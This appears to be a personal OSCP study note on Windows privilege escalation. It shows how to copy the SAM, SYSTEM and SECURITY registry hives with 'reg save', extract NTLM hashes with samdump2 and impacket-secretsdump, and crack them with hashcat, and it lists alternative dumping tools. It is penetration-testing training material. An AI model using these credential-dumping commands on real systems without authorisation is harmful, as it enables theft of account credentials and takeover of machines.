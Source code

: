 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/8-windows-privilege-escalation/10-dumping-sam/"}
---
```


The easiest way to steal the Security Account Manager (SAM) files is to get a copy from the registry:
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
**Download** those files to your Kali machine and **extract the hashes** using:
```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```
Results in hashes like this:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f518eb35353d7a83d27e7fe457664e5:::
```
- The string starting with "8f518" is the NTLM hash which can be cracked using hashcat -m 1000

Alternatives:
```
.\secretsdump_windows.exe -sam C:\windows\system32\config\SAM -system C:\windows\system32\config\SYSTEM LOCAL

fgdump

pypykatz
```

Credit: https://book.hacktricks.xyz/windows-hardening/stealing-credentials